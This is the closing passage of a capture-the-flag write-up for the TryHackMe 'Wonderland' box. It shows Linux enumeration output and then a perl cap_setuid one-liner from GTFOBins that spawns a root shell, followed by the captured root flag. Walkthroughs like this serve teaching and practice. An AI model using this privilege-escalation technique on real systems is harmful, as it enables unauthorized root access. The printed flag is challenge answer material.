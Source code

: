 ```text
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.4 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
[-] Hostname:
wonderland

### USER/GROUP ##########################################
[-] Current user/group info:
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
[-] Users that have previously logged onto the system:
Username         Port     From             Latest
tryhackme        pts/0    10.8.6.110       Fri Jun  5 22:28:57 +0000 2020
alice            pts/1    192.168.170.1    Mon May 25 16:37:21 +0000 2020
hatter           pts/0    10.9.17.195      Sat Jun  6 16:55:03 +0000 2020
[-] Who else is logged on:
 16:58:23 up 5 min,  1 user,  load average: 1.46, 1.72, 0.84
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
hatter   pts/0    10.9.17.195      16:55    7.00s  0.74s  0.08s w

<<SNIP>>

e [+] Files with POSIX capabilities set:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

## Root Flag

Capabilities is a well known attack vector. [GTFOBins](https://gtfobins.github.io/gtfobins/) has lots of really good information about the many UNIX/Linux binaries that can be abused. [This](https://gtfobins.github.io/gtfobins/perl) section talks about Perl and what you can do with CAP_SETUID being set.

From that article iI took this command:

```text
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

Here we run it on the box to get root, and finally the flag:

```text
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)

# cat /home/alice/root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```

All done. See you next time.
